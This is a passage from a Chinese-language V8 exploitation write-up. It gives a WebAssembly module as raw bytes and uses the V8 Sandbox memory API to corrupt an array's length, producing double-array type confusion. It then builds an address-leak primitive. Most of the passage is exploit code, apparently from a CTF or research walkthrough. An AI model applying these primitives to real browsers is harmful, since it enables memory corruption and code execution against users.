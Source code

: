 ```js
  (func $do_read (export "do_read")
    (param $offset i32)  ;; Offset within memory
	(result i64)
    (i64.load
      (local.get $offset)  ;; Get the memory offset
    )
  )
)
*/
```

之后将转换为二进制数的wasm代码放入数组中，以便于将函数导入到js代码中调用：

```js

const u32array = new Uint32Array([1.1, 2.2, 3.3]);
var wasm_code = new Uint8Array([
  0x00, 0x61, 0x73, 0x6D, 0x01, 0x00, 0x00, 0x00, 0x01, 0x15, 0x04, 0x60, 0x02, 0x7E, 0x7E, 0x00,
  0x60, 0x01, 0x7E, 0x01, 0x7E, 0x60, 0x02, 0x7F, 0x7E, 0x00, 0x60, 0x01, 0x7F, 0x01, 0x7E, 0x03,
  0x05, 0x04, 0x00, 0x01, 0x02, 0x03, 0x05, 0x03, 0x01, 0x00, 0x01, 0x07, 0x37, 0x05, 0x07, 0x77,
  0x6D, 0x65, 0x6D, 0x6F, 0x72, 0x79, 0x02, 0x00, 0x09, 0x6F, 0x6F, 0x62, 0x5F, 0x77, 0x72, 0x69,
  0x74, 0x65, 0x00, 0x00, 0x08, 0x6F, 0x6F, 0x62, 0x5F, 0x72, 0x65, 0x61, 0x64, 0x00, 0x01, 0x08,
  0x64, 0x6F, 0x5F, 0x77, 0x72, 0x69, 0x74, 0x65, 0x00, 0x02, 0x07, 0x64, 0x6F, 0x5F, 0x72, 0x65,
  0x61, 0x64, 0x00, 0x03, 0x0A, 0x1C, 0x04, 0x03, 0x00, 0x01, 0x0B, 0x04, 0x00, 0x42, 0x00, 0x0B,
  0x09, 0x00, 0x20, 0x00, 0x20, 0x01, 0x37, 0x03, 0x00, 0x0B, 0x07, 0x00, 0x20, 0x00, 0x29, 0x03,
  0x00, 0x0B 
]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var {wmemory, oob_read, oob_write, do_read, do_write} = wasm_instance.exports;
```

然后利用sandbox对象来完成双数组混淆，具体做法就是直接去修改数组`d_arr`的长度字段，将其长度修改为0x1000，此时`d_arr`就可以去读写`o_arr`数组中保存的数据内容：

```js

class Utils{
	// ...
}
const utils = new Utils();

const sbxMem = new Sandbox.MemoryView(0, 0xFFFFFFF8);
const sbxDV = new DataView(sbxMem);
let f_arr = [2.1, 2.2];
let d_arr = [1.1, 1.2];
let o_arr = [1, 2, 3, {}];
const d_arr_len = Sandbox.getAddressOf(d_arr)+0xC;
sbxDV.setUint32(d_arr_len, 0x1000, true);
```

在得到两个混淆的不同类型的数组后就可以像其他v8漏洞那样构造地址泄露函数：

```js

function leak_addr(obj){
  o_arr[0] = obj;
  return utils.ftoi(d_arr[5]) & 0xFFFFFFFFn;
}
```
